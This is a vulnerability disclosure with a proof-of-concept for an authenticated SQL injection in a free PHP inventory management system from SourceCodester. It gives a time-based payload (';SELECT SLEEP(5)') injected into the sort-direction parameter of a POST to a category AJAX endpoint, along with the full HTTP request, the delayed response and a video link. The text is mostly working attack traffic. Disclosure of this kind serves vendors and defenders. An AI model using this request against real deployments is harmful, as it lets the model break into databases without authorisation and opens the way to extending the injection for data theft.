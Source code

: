 ﻿
**Exploit Title:** Free and Open Source inventory management system php - Authenticated SQL Injection <br>
**Date**: 4/08/2023 <br>
**Exploit Author:** y3thu <br>
**Vendor Homepage:** https://www.sourcecodester.com/users/mayurik <br>
**Software Link:** https://www.sourcecodester.com/php/16741/free-and-open-source-inventory-management-system-php-source-code.html <br>
**Attack Vector:** WEB, Network <br>
**Testeted on:** Windows 10  using XAMPP <br>

**POST Authenticated SQL Injection** <br>
**POC** <br>
**payload:** `;SELECT SLEEP(5)` <br>


    POST /ample/app/ajax/catagory_data.php HTTP/1.1
    Host: localhost
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 983
    Origin: http://localhost
    Connection: close
    Referer: http://localhost/ample/index.php?page=category
    Cookie: PHPSESSID=g11ukg4bi8dvr9q9uqvsslpm3t
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    
    draw=1&columns%5B0%5D%5Bdata%5D=id&columns%5B0%5D%5Bname%5D=&columns%5B0%5D%5Bsearchable%5D=true&columns%5B0%5D%5Borderable%5D=true&columns%5B0%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B0%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B1%5D%5Bdata%5D=name&columns%5B1%5D%5Bname%5D=&columns%5B1%5D%5Bsearchable%5D=true&columns%5B1%5D%5Borderable%5D=true&columns%5B1%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B1%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B2%5D%5Bdata%5D=description&columns%5B2%5D%5Bname%5D=&columns%5B2%5D%5Bsearchable%5D=true&columns%5B2%5D%5Borderable%5D=true&columns%5B2%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B2%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B3%5D%5Bdata%5D=action&columns%5B3%5D%5Bname%5D=&columns%5B3%5D%5Bsearchable%5D=true&columns%5B3%5D%5Borderable%5D=true&columns%5B3%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B3%5D%5Bsearch%5D%5Bregex%5D=false&order%5B0%5D%5Bcolumn%5D=0&order%5B0%5D%5Bdir%5D=asc;SELECT SLEEP(5)&start=0&length=10&search%5Bvalue%5D=&search%5Bregex%5D=false

**Response after 5 seconds (the sleep has been executed)**

     
    HTTP/1.1 200 OK
    Date: Fri, 04 Aug 2023 06:49:50 GMT
    Server: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/7.4.30
    X-Powered-By: PHP/7.4.30
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate
    Pragma: no-cache
    Content-Length: 2174
    Connection: close
    Content-Type: text/html; charset=UTF-8



https://github.com/yethu123/XSS-and-SQL-Injection-on-Free-and-Open-Source-inventory-management-system/assets/29069905/36e9e20b-1bfe-4031-87a9-7d45dfba2e77

